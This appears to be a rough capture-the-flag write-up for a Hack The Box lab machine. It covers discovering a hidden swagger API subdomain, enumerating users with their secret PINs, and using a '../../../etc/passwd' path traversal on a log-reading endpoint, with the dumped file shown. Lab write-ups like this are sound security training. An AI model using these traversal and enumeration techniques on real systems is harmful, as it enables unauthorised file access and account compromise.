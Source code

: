 {
	"username": "test",
"password": "test"
}



*getting internal server error when inputting the correct pin, why cause I have  no funds? *



*in network_security_config.xml there is another subdomain*

*should have looked  longer at the .xml files under resources *

swagger-ui.instant.htb



<?xml version="1.0" encoding="utf-8"?>  
<network-security-config>  
    <domain-config cleartextTrafficPermitted="true">  
        <domain includeSubdomains="true">mywalletv1.instant.htb  
        </domain>  
        <domain includeSubdomains="true">swagger-ui.instant.htb  
        </domain>  
    </domain-config>  
</network-security-config>



*lol me all the API documentation is here*

http://swagger-ui.instant.htb/apidocs/#/Logs





*enumerated users on the webapp as well as their secret pins*

{"Status":200,"Users":[

{"email":"admin@instant.htb","role":"Admin","secret_pin":87348,"status":"active","username":"instantAdmin","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},

{"email":"shirohige@instant.htb","role":"instantian","secret_pin":42845,"status":"active","username":"shirohige","wallet_id":"458715c9-b15e-467b-8a3d-97bc3fcf3c11"},


*these r the logs im allowed to look at*

{"Files":["1.log"],"Path":"/home/shirohige/logs/","Status":201}



*path traversal* -> on log read api req

{"/home/shirohige/logs/../../../etc/passwd":["root:x:0:0:root:/root:/bin/bash\n","daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n","bin:x:2:2:bin:/bin:/usr/sbin/nologin\n","sys:x:3:3:sys:/dev:/usr/sbin/nologin\n","sync:x:4:65534:sync:/bin:/bin/sync\n","games:x:5:60:games:/usr/games:/usr/sbin/nologin\n","man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n","lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n","mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n","news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n","uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n","proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n","www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n","backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n","list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n","irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n","_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n","nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n","systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n","systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n","dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n","messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n","systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n","pollinate:x:102:1::/var/cache/pollinate:/bin/false\n","polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n","usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n","sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n","shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n","_laurel:x:999:990::/var/log/laurel:/bin/false\n"],"Status":201}
